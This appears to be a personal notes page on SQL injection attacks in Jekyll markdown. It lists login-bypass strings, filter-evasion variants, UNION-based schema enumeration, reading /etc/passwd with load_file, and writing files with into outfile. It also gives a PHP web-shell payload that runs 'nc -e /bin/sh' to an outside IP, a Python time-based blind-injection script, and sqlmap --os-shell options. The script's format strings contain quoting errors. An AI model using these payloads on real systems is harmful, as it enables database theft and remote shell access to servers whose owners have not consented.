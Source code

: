 ```yaml
---
layout: post
title: 'Notes | SQL'
permalink: /notes/databases/sql/
---
```


# Basic access
Maybe the database have the default login, we can try with:
{% highlight mysql %}
> mysql -u root -h <ip>
{% endhighlight %}

---

# Basic Injection
If we can send a query to the database to log, we can do:
{% highlight mysql %}
' or '1'='1' --
{% endhighlight %}

Probably we need to change the text to bypass filter:
{% highlight mysql %}
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
{% endhighlight %}
We can change the spaces by:
{% highlight mysql %}
+, /**/, %20
{% endhighlight %}

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

##### Probably, we need to add **;** at the end of the query (before the comment).

Also, we can try to catch the login request with burp and send the SQLi with it.
  
---

# Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
{% highlight mysql %}
... ORDER BY 5; --
{% endhighlight %}
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
{% highlight mysql %}
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
{% endhighlight %}

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
{% highlight mysql %}
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
{% endhighlight %}

Or the others databases:
{% highlight mysql %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
{% endhighlight %}
Some databases can limit the amount on databases show, we can try to change it with limit:
{% highlight mysql %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
{% endhighlight %}

To get the columns of a table:
{% highlight mysql %}
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
{% endhighlight %}

We can use this syntax to read and write system files:
{% highlight mysql %}
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
{% endhighlight %}
And then create a reverse shell:
{% highlight mysql %}
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
{% endhighlight %}

If we can not pass a string like **"database-name"** we can encode it:
{% highlight mysql %}
> echo "database-name" | xxd -ps
{% endhighlight %}
##### (We may remove the **0a**, and add a **0x** at the beggining.)

---

# Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
{% highlight mysql %}
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
{% endhighlight %}

We can make a Python Script:
{% highlight python %}
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
{% endhighlight %}

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

---

# SQLmap
We can try searching a URL with:
{% highlight bash %}
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
{% endhighlight %}

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**